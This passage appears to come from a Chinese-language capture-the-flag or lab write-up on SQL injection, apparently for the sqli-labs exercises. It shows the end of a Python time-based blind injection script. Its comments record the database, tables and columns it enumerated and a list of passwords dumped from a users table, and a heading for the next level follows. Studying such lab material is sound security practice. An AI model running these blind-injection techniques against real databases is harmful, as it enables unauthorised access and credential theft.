 ```python
                print(res)
                break
    print("Flag: ", res)

if __name__ == '__main__':
    # get_databse() # 库名：security
    # get_tables() # 列名：emails;referers;uagents;users
    # get_columns() # 表名：1.id;email_id 2.id;referer;ip_address(ip_addkess) 3.id;uagent;ip_address;username 4.id;username(usernahe);password(passkord)
    # 由于时间盲注会受到网络的影响，需要多试几次来提高结果的精确度
    # 根据以上的结果可以认为需要找的东西在users表中的password字段
    get_flag() # dumb;i0kill-you;p@ssword;crappyustupidity;genious;mob!le;admie;admin1;admin2;admin3;dumbo0dmin4
```

源码如下：

![](/pics/WEB集训/二/16.png)

## less-25
